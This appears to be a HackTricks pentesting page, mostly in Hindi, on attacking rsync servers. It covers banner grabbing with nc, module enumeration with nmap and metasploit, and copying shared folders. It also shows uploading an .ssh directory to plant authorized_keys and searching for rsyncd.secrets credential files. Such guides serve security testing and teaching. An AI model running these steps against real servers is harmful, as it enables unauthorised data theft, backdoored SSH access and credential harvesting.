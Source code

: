 # 873 - Pentesting Rsync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Basic Information**

From [wikipedia](https://en.wikipedia.org/wiki/Rsync):

> **rsync** एक उपयोगिता है जो कुशलता से [transferring](https://en.wikipedia.org/wiki/File_transfer) और [synchronizing](https://en.wikipedia.org/wiki/File_synchronization) [files](https://en.wikipedia.org/wiki/Computer_file) को एक कंप्यूटर और एक बाहरी हार्ड ड्राइव के बीच और [networked](https://en.wikipedia.org/wiki/Computer_network) [computers](https://en.wikipedia.org/wiki/Computer) के बीच फ़ाइलों के [modification times](https://en.wikipedia.org/wiki/Timestamping_\(computing\)) और आकारों की तुलना करके करती है।[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite_note-man_page-3) यह सामान्यतः [Unix-like](https://en.wikipedia.org/wiki/Unix-like) [operating systems](https://en.wikipedia.org/wiki/Operating_system) पर पाया जाता है। rsync एल्गोरिदम एक प्रकार का [delta encoding](https://en.wikipedia.org/wiki/Delta_encoding) है, और इसका उपयोग नेटवर्क उपयोग को कम करने के लिए किया जाता है। [Zlib](https://en.wikipedia.org/wiki/Zlib) अतिरिक्त [data compression](https://en.wikipedia.org/wiki/Data_compression) के लिए उपयोग किया जा सकता है,[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite_note-man_page-3) और [SSH](https://en.wikipedia.org/wiki/Secure_Shell) या [stunnel](https://en.wikipedia.org/wiki/Stunnel) सुरक्षा के लिए उपयोग किया जा सकता है।

**Default port:** 873
```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```
## Enumeration

### बैनर और मैनुअल संचार
```bash
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy
NAS_Public
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```
### **साझा फ़ोल्डरों की गणना करना**

**Rsync मॉड्यूल** को **निर्देशिका साझा** के रूप में पहचाना जाता है जो **पासवर्ड से सुरक्षित** हो सकते हैं। उपलब्ध मॉड्यूल की पहचान करने और यह जांचने के लिए कि क्या उन्हें पासवर्ड की आवश्यकता है, निम्नलिखित कमांड का उपयोग किया जाता है:
```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

# Example with IPv6 and alternate port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```
ध्यान दें कि कुछ शेयर सूची में नहीं दिखाई दे सकते हैं, संभवतः उन्हें छिपा दिया गया है। इसके अतिरिक्त, कुछ शेयरों तक पहुँच विशेष **प्रमाण पत्रों** तक सीमित हो सकती है, जिसे **"Access Denied"** संदेश द्वारा दर्शाया गया है।

### [**Brute Force**](../generic-hacking/brute-force.md#rsync)

### मैनुअल Rsync उपयोग

**मॉड्यूल सूची** प्राप्त करने के बाद, क्रियाएँ इस पर निर्भर करती हैं कि क्या प्रमाणीकरण की आवश्यकता है। प्रमाणीकरण के बिना, साझा फ़ोल्डर से स्थानीय निर्देशिका में फ़ाइलों की **सूची** और **कॉपी** करना इस प्रकार किया जाता है:
```bash
# Listing a shared folder
rsync -av --list-only rsync://192.168.0.123/shared_name

# Copying files from a shared folder
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```
यह प्रक्रिया **पुनरावृत्त रूप से फ़ाइलों को स्थानांतरित करती है**, उनके गुण और अनुमतियों को बनाए रखते हुए।

**क्रेडेंशियल्स** के साथ, एक साझा फ़ोल्डर से सूचीबद्ध करना और डाउनलोड करना निम्नलिखित तरीके से किया जा सकता है, जहाँ एक पासवर्ड प्रॉम्प्ट दिखाई देगा:
```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```
To **upload content**, such as an _**authorized\_keys**_ फ़ाइल के लिए पहुँच, उपयोग करें:
```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```
## POST

rsyncd कॉन्फ़िगरेशन फ़ाइल को खोजने के लिए, निष्पादित करें:
```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```
इस फ़ाइल के भीतर, एक _secrets file_ पैरामीटर एक फ़ाइल की ओर इशारा कर सकता है जिसमें **उपयोगकर्ता नाम और पासवर्ड** rsyncd प्रमाणीकरण के लिए होते हैं।

## संदर्भ

* [https://www.smeegesec.com/2016/12/pentesting-rsync.html](https://www.smeegesec.com/2016/12/pentesting-rsync.html)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
